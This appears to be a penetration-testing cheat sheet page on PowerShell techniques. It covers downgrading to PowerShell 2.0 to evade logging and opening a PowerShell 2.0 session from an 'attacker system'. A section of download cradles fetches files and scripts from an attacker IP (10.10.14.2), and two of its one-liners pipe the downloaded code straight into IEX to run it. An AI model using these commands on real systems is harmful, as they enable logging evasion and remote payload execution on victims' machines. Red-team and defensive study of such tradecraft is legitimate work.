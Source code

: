 Run a lower version of PowerShell to potentially evade logging and other restrictions. From the run popup window or from the cli:

```
powershell -version 2
```

Connect to a remote machine via PowerShell 2.0. On the target system (Server01), in an elevated shell, create a session configuration as follows:

```
Register-PSSessionConfiguration -Name PS2 -PSVersion 2.0
```

On the attacker system:

```
New-PSSession -ComputerName Server01 -ConfigurationName PS2
```

View PowerShell log entries within PowerShell:

```
Get-EventLog 'Windows PowerShell' -EntryType Information -InstanceId 800
```

## PowerShell Event Logging Comparison

![](../.gitbook/assets/powershell\_event\_logging.JPG)

## Powershell Download Cradles

There are multiple ways to download files using PowerShell, including the following:

#### System.Net.WebClient:

```powershell
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
```

#### Invoke-WebRequest:

```powershell
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
```

#### Hidden IE com object:

```powershell
$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://10.10.14.2/code.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r
```

#### Msxml2.XMLHTTP COM object:

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://10.10.14.2/code.ps1',$false);$h.send();iex $h.responseText
```
